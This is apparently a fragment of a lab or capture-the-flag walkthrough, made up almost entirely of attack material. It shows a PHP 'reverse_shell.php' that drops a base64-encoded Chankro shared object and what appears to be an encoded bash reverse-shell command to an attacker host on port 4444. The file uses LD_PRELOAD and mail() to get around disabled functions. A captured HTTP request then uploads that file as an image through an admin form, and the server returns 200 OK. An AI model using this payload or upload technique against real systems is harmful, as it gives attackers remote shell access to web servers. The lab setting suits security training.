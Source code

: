 `file ./reverse_shell.php`:
```
./reverse_shell.php: PHP script, ASCII text, with very long lines (11352) ←
```

`cat ./reverse_shell.php`:
```php
<?php
 $hook = 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAA4AcAAAAAAABAAAAAAAAAAPgZAAAAAAAAAAAAAEAAOAAHAEAAHQAcAAEAAAAFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbAoAAAAAAABsCgAAAAAAAAAAIAAAAAAAAQAAAAYAAAD4DQAAAA

[...]

AAAAAAAAAAAAAAAPsYAAAAAAAA9gAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=';
$meterpreter = 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjExOC80NDQ0IDI+JjEgMD4mMQo=';
file_put_contents('/var/www/html/chankro.so', base64_decode($hook));
file_put_contents('/var/www/html/acpid.socket', base64_decode($meterpreter));
putenv('CHANKRO=/var/www/html/acpid.socket');
putenv('LD_PRELOAD=/var/www/html/chankro.so');
mail('a','a','a','a');?>              
```

`burpsuite`

`HTTP Request`:
```http
POST /admin.php HTTP/1.1
Host: 192.168.56.132
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------66062017127429232261863440587
Content-Length: 12411
Origin: http://192.168.56.132
Connection: close
Referer: http://192.168.56.132/admin.php
Cookie: PHPSESSID=e832tp27qbat6gn1v5u5lhf00e
Upgrade-Insecure-Requests: 1

-----------------------------66062017127429232261863440587
Content-Disposition: form-data; name="nombre"

TEST
-----------------------------66062017127429232261863440587
Content-Disposition: form-data; name="autor"

TEST
-----------------------------66062017127429232261863440587
Content-Disposition: form-data; name="precio"

1
-----------------------------66062017127429232261863440587
Content-Disposition: form-data; name="descripcion"

TEST
-----------------------------66062017127429232261863440587
Content-Disposition: form-data; name="imagen"; filename="reverse_shell.php" ←
Content-Type: application/x-php

[...]
```
`HTTP Response`:
```http
HTTP/1.1 200 OK ←
```